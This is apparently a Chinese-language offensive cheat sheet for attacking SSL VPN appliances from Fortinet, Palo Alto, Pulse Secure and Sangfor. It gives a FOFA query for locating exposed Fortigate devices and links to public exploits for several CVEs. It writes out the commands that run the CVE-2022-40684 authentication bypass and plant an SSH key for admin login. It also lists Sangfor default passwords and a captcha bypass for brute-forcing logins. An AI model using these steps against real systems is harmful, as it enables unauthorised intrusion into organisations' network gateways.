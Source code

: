 #### Fortigate SSL VPN

FOFA：

```
fofa: icon_hash="-404383634" app="FORTINET-防火墙"
```

##### 密码读取 CVE-2018-13379

exp：https://github.com/milo2012/CVE-2018-13379

##### 任意密码重置 CVE-2018-13382

exp：https://github.com/milo2012/CVE-2018-13382

##### 认证绕过 CVE-2022-40684

exp：https://github.com/horizon3ai/CVE-2022-40684

```
git clone https://github.com/horizon3ai/CVE-2022-40684.git
cd CVE-2022-40684
ssh-keygen -t rsa
python3 CVE-2022-40684.py -t 1.1.1.1 --username admin --key-file ~/.ssh/id_rsa.pub
ssh admin@1.1.1.1
```

#### Palo Alto SSL VPN

##### GlobalProtect 远程代码执行 CVE-2019-1579

exp：https://github.com/securifera/CVE-2019-1579

#### Pulse Secure SSL VPN

##### 任意文件读取 CVE-2019-11510

exp：https://github.com/projectzeroindia/CVE-2019-11510

##### 远程代码执行 CVE-2019-11539

exp：https://github.com/0xDezzy/CVE-2019-11539

#### 深信服 VPN

##### 常见密码

```
admin/sangfor@123
sangfor/sangfor
test/test
test1/123456b
```

##### 口令爆破

用户登录，若多次尝试登录失败会要求输入验证码，若输入错误的验证码，会提示“校验码错误或校验码已过期”；修改登录请求的数据包，清空cookie和验证码字段的值即可绕过验证码，此时提示“用户名或密码错误”。
